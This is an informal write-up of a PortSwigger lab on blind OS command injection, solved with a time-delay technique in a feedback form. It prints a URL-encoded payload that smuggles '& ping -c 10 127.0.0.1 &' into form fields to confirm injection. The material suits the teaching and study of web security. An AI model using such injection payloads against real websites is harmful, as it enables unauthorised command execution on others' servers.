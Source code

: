 ```yaml
---
tags: ["blind", "command injection", "time delay"]
image: "img/Portswigger/command-injection.png"
---
```


--> In this lab we have the blind command injection vuln. in feedback form so we have to make the website sleep for 10 seconds

we can make website sleep with `ping` command like this :

```bash
ping -c 10 127.0.0.1
```

--> website is executing your payload in the backend like this :

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

so i used this payload :

```bash
+%26+ping+-c+10+127.0.0.1+%26&
which get decoded to
 & ping -c 10 127.0.0.1 &
```

--> But it didn't worked in the `message`field so i tried this in every field and lmao it worked !

![](Attachments/Pastedimage20220120121437.png)

--> And we solved the lab!

![](Attachments/Pastedimage20220120120845.png)
